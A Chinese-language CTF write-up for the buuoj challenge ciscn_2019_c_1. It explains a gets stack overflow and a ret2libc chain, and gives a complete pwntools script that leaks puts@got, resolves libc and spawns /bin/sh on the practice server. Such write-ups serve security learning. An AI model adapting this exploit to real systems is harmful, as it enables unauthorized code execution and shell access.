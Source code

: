 ```yaml
---
title: buuoj - 2019国赛第一题
date: 2023/9/20 12:00:00
tags:
    - noob
excerpt: 通过栈溢出和ret2libc攻击，利用`puts`泄露libc地址，最终执行`system("/bin/sh")`。
---
```


From buuoj.

## 文件分析

下载`ciscn_2019_c_1`, NX on, PIE off, RELRO partial  
ghidra分析为64位程序

## 解题思路

函数`encrypt()`中存在`gets`，考虑**栈溢出**攻击  
.text段中不存在后门函数，并且有nx，考虑ret2libc

**记录首次学会**

1. 获取`pop rdi; ret;`和puts@plt地址
2. 栈溢出打印puts@got
3. 根据puts@got获知靶机使用的libc
4. 将**puts@got**偏移到system@got & shstr@got
5. 回到`gets`函数，重新执行溢出拿到sh

{% note warning fa-exclamation %}
如果一个字节为**0x0a**，**会被截断**！（换行）
{% endnote %}

## EXPLOIT

```python
from pwn import *
import LibcSearcher
sh = remote('node4.buuoj.cn', 29693)
elf = ELF('ciscn_2019_c_1')

putsPlt = elf.plt['puts']
putsGot = elf.got['puts']
popRdiAddr = 0x0400c83
vulnAddr = 0x004009a0
retAddr = 0x0040099f # 不能带0x0a!!!

sh.sendline(b'1') # 选择1.Encrypt (Vulnerable Function)
sh.sendline(b'0'*0x58 + p64(popRdiAddr) + p64(putsGot) + p64(putsPlt) + p64(vulnAddr))

sh.recvuntil(b'\nI') # skip
sh.recvuntil(b'\nI') # skip
data = sh.recvuntil(b'\nI') 
putsGotAddr = u64(data[-8:-2] + b'\0\0')

libc = LibcSearcher.LibcSearcher('puts', putsGotAddr & 0xfff)
libcbase = putsGotAddr - libc.dump('puts')
systemAddr = libcbase + libc.dump('system')
shstrAddr = libcbase + libc.dump('str_bin_sh')

sh.sendline(b'0'*0x58 + p64(popRdiAddr) + p64(shstrAddr) + p64(retAddr) + p64(systemAddr))

sh.interactive()
```

Done.
